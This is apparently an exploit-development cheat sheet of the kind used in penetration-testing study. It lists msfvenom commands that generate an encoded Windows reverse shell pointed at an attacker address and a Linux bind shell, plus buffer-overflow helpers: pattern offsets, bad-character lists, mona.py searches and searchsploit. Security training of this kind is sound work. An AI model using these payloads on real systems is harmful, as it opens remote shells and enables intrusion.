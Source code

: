 ```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.4 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"
```

linux bind shell

```bash
msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -f c -b "\x00\x0a\x0d\x20" –e x86/shikata_ga_nai
```



Exploit pattern creation

```bash
pattern_create.rb -l <size>
```

```bash
pattern_offset.rb -l <size> -q <value>
```

```python
badchars = map(lambda x: chr(x),  list(xrange(256)) )
```

# Mona.py

Show modules and if they are affected by mitigations or not.

```python
!mona modules
```

Finding instructions in dll

```python
!mona find -s "\x90\x90" -m <dll.dll>
```

Check if address that points to searched instructions does not contain any badchars.



# Searching exploits

search exploitdb archive in kali

```bash
searchsploit slmail
```

# Compilers

compile windows code in kali using:

```bash
apt-get install mingw-w64
mingw
```
